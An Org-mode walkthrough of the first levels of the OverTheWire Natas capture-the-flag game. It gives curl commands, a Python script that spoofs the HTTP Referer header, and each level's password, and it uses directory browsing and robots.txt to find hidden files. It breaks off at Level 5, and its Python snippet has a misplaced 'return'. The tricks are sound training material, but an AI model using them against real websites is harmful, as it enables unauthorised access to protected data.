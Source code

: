 * Natas
** Introduction
This is a writeup for the [[https://overthewire.org/wargames/][overthewire.org]] war game Natas. To start a level 
visit the URL http://natasX.natas.labs.overthewire.org, and login with 
username: natasX and the password found in the previous level, where X is the 
level number.

** Level 0
View the source page and find the password:

#+BEGIN_SRC shell
curl -u natas0:natas0 "http://natas0.natas.labs.overthewire.org/" | grep natas1
#+END_SRC

#+RESULTS:
: <!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->

** Level 1
View the source page by using a short cut key (for me <C-u>, Ctrl+u):

#+BEGIN_SRC shell
curl -u natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto  "http://natas1.natas.labs.overthewire.org/" | grep natas2
#+END_SRC

#+RESULTS:
: <!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->

** Level 2
Again view the source page. There is a line that link to an image scr{<img src="files/pixel.png">}

#+BEGIN_SRC 
<img src="files/pixel.png">
#+END_SRC

This links to "http://natas2.natas.labs.overthewire.org/files/pixel.png", note 
the /files/pixels.png. Which means it might be possible to explorer the files 
'files' directory. Exploring "http://natas2.natas.labs.overthewire.org/files/" 
it shows that there it another file called 'users.txt' which contains the 
password for the next level.

#+BEGIN_SRC shell
curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi "http://natas2.natas.labs.overthewire.org/files/users.txt" | grep natas3
#+END_SRC

#+RESULTS:
: natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

** Level 3
View the source and find the line

#+BEGIN_SRC 
<!-- No more information leaks!! Not even Google will find it this time... -->
#+END_SRC

which hints at the 'robots.txt' file that contains the directories webcrawlers are not supossed to visit. From the 'robots.txt' we get the directory '/s3cr3t/' which contains the 'users.txt' file with the password for natas4.

#+BEGIN_SRC shell
curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 "http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt" | grep natas4
#+END_SRC

#+RESULTS:
: natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

** Level 4
To get access to the password we need to come from the natas5 website as is 
metioned on the website when first loging in. 
#+BEGIN_SRC 
Access disallowed. You are visiting from "" while authorized users should come 
only from "http://natas5.natas.labs.overthewire.org/"
#+END_SRC
It is possible to simulate this by setting the referer in the header of the get
request to the natas5 website.
#+BEGIN_SRC python
import requests
from requests.auth import HTTPBasicAuth

user = "natas4"
pswd = "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ"
url = "http://natas4.natas.labs.overthewire.org/"
headers = {'referer': 'http://natas5.natas.labs.overthewire.org/'}

# get request with the referer set to natas5
r = requests.get(url, headers=headers, auth=HTTPBasicAuth(user,pswd))

# find the line with the password in it
lines = r.text.split('\n')
bools = list(map(lambda x : "password" in x, lines))
for (b,line) in zip(bools,lines):
    if b:
        return line
#+END_SRC

#+RESULTS:
: Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

** Level 5
